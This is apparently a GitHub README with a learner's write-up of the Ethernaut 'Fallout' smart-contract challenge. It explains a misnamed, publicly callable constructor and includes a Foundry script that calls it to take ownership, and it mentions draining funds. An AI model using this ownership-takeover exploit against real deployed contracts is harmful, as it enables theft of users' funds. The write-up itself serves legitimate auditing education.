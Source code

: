 # Ethernaut Level: Fallout - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Fallout** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/fallout/`) contains everything related to it.

**Goal:** Become the contract owner and collect all allocations by calling `collectAllocations()`.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 16, 2025 (Day 3).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract manages ETH allocations with an owner who can collect funds. It uses SafeMath for arithmetic and has functions for allocating, sending, and collecting funds. The "constructor" is misleadingly named `Fal1out()` (note the lowercase 'l' resembling 'I'), making it a regular payable public function instead of a true constructor.

**Key Code Snippet (from src/Fallout.sol):**
```solidity
contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {  // Misnamed "constructor" - callable by anyone!
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    // ... (other functions: sendAllocation, allocatorBalance)
}
```

## Vulnerability Analysis
**Main Issue: Publicly Callable "Constructor" (Function Name Typo)**  
- The function `Fal1out()` is intended as a constructor but is declared as a public payable function due to the typo (should be `constructor` or properly named). Anyone can call it, setting `owner = msg.sender` and allocating the sent value. No true constructor initializes the owner on deployment.  
- **Security Impact:** Allows unauthorized ownership takeover post-deployment, enabling fund drainage via `collectAllocations()`. In audits, this underscores the importance of naming conventions and access controls—typos can expose critical functions.  
- **Audit Tip:** Verify constructor declarations (no name, special keyword in ^0.7+). Use tools like Solhint to flag unnamed or suspicious functions. Always test public functions for unintended state changes.

**Example:** After deployment, the initial owner is address(0) or unset; calling `Fal1out()` with any value (even 0) reassigns ownership to the caller.

## Solution Steps
The exploit: Directly call the misnamed "constructor" `Fal1out()` to become the owner. Then, optionally call `collectAllocations()` to drain funds (though Ethernaut verifies ownership change).

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/FalloutSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `owner()` matches your address, submit on Ethernaut site.

**Key Attack Code Snippet (from script/FalloutSolution.s.sol):**
```solidity
contract FalloutSolution is Script {
    Fallout public falloutInstance = Fallout(<Contract_Address>);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Owner:", falloutInstance.owner());

        falloutInstance.Fal1out();  // Call misnamed constructor to become owner
        console.log("Owner after constructor call:", falloutInstance.owner());

        console.log("Address:", vm.envAddress("MY_ADDRESS"));
     
        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates ownership change via `Fal1out()` call.
- **Testnet Output Example:** Console log: `Owner: 0x000...` (initial), then `Owner after constructor call: 0xYourAddress` (matches MY_ADDRESS).

## Key Learnings
- **Auditing Skill:** Inspect function signatures for typos or non-constructor "constructors"—static analyzers like Mythril can catch callable init functions.
- **EVM Concept:** In Solidity ^0.6, constructors must be named `constructor()`; public functions with init logic are exploitable. SafeMath prevents overflows but doesn't fix access issues.
- **Prevention:** Use proper constructor keyword, add ownership guards (e.g., OpenZeppelin's Ownable), and audit deployment scripts.
- **Next Step:** Add `collectAllocations()` call to the script for full fund drainage simulation.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/fallout`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/FalloutSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! 
Next level: `CoinFlip`. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)